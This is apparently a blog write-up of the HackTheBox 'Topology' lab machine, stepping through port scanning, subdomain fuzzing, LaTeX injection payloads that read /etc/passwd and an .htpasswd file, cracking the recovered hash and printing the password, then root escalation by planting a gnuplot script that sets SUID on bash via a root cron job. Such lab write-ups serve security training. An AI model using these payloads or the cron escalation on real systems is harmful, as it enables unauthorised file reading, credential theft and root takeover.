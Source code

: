 ```yaml
---
categories: [HackTheBox]
tags: [LaTeX, subdomain, PrivEsc]  
image:
  path: /Vulnhub-Files/img/Topology/Untitled.png
  alt: Topology HackTheBox Machine 🫡
---
```




## Port Scan Results ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Topology]
└─$ cat Nmap_results.txt 
# Nmap 7.94 scan initiated Wed Oct  4 21:24:34 2023 as: nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.10.11.217
Nmap scan report for 10.10.11.217
Host is up (0.17s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 dc:bc:32:86:e8:e8:45:78:10:bc:2b:5d:bf:0f:55:c6 (RSA)
|   256 d9:f3:39:69:2c:6c:27:f1:a9:2d:50:6c:a7:9f:1c:33 (ECDSA)
|_  256 4c:a6:50:75:d0:93:4f:9c:4a:1b:89:0a:7a:27:08:d7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Miskatonic University | Topology Group
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
{: .nolineno}

## Web Enumeration ⤵️

While checking port 80 I got the DNS name that is `topology.htb` and I searched for any subdomains and through source code I got one subdomain and rest from ffuf tool →

![Untitled](/Vulnhub-Files/img/Topology/Untitled%201.png)

form source code I got one →

![Untitled](/Vulnhub-Files/img/Topology/Untitled%202.png)

Now with tool called as `ffuf` I got 2 other subdomains →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Topology]
└─$ ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -H "Host: FUZZ.topology.htb" -u http://topology.htb -fs 6767

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       'v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://topology.htb
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.topology.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 6767
________________________________________________

dev                     [Status: 401, Size: 463, Words: 42, Lines: 15, Duration: 1659ms]
stats                   [Status: 200, Size: 108, Words: 5, Lines: 6, Duration: 852ms]
:: Progress: [19966/19966] :: Job [1/1] :: 11 req/sec :: Duration: [0:24:26] :: Errors: 0 ::
```
{: .nolineno}

Lets see the `latex.topology.htb` site first →

![Untitled](/Vulnhub-Files/img/Topology/Untitled%203.png)

I then searched for Latex Injection on web and I got some inputs like this →

![Untitled](/Vulnhub-Files/img/Topology/Untitled%204.png)

I used this one to get the output →

```bash
$\lstinputlisting{/etc/passwd}$
```
{: .nolineno}

![Untitled](/Vulnhub-Files/img/Topology/Untitled%205.png)

Now as I got the `dev` subdomain so I think this site is `apache` based and could contains `.htpasswd` file so lets try to access this file →

```bash
$\lstinputlisting{/var/www/dev/.htpasswd}$
```
{: .nolineno}

and I got this →

![Untitled](/Vulnhub-Files/img/Topology/Untitled%206.png)

```bash
vdaisley : $apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0
```
{: .nolineno}

Now Lets crack this hash with hashcat Tool →

![Untitled](/Vulnhub-Files/img/Topology/Untitled%207.png)

```bash
vdaisley : calculus20
```
{: .nolineno}

## SSH SHELL ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Topology]
└─$ ssh vdaisley@topology.htb
vdaisley@topology.htbs password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-150-generic x86_64)

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status

The list of available updates is more than a week old.
To check for new updates run: sudo apt update

vdaisley@topology:~$ whoami
vdaisley
vdaisley@topology:~$ id
uid=1007(vdaisley) gid=1007(vdaisley) groups=1007(vdaisley)
vdaisley@topology:~$
```
{: .nolineno}

Lets dig deeper for root access →

I capture these data through pspy64 Tool that analyses the network pattern →

![Untitled](/Vulnhub-Files/img/Topology/Untitled%208.png)

I searched on web regarding this gnuplot and I get the info as →

> ***gnuplot*** is a command-line and GUI program that can generate two- and three-dimentional plots of functions, data, and data fits.
{: .prompt-tip }

and I also got an exploit related to it from [here](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/gnuplot-privilege-escalation/).

In this case I created a file called as `test.plt` and executed the command to make `bash` have SUIDs permission , as the cron will execute on its own through root privileges so →

```bash
vdaisley@topology:/tmp$ nano /opt/gnuplot/test.plt
vdaisley@topology:/tmp$ cat /opt/gnuplot/test.plt
system "chmod u+s /bin/bash"
vdaisley@topology:/tmp$ ls -al /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
vdaisley@topology:/tmp$ /bin/bash -p
bash-5.0# whoami
root
bash-5.0# id
uid=1007(vdaisley) gid=1007(vdaisley) euid=0(root) groups=1007(vdaisley)
bash-5.0# cd /root
bash-5.0# ls -al
total 28
drwx------  4 root root 4096 Jun 14 07:47 .
drwxr-xr-x 18 root root 4096 Jun 12 10:37 ..
lrwxrwxrwx  1 root root    9 Mar 13  2022 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Jan 17  2023 .bashrc
drwx------  3 root root 4096 Jan 17  2023 .config
drwxr-xr-x  3 root root 4096 May 12 07:34 .local
-rw-r--r--  1 root root  161 Jan 17  2023 .profile
-rw-r-----  1 root root   33 Oct  4 14:00 root.txt
bash-5.0#
```
{: .nolineno}

I am Root Now !!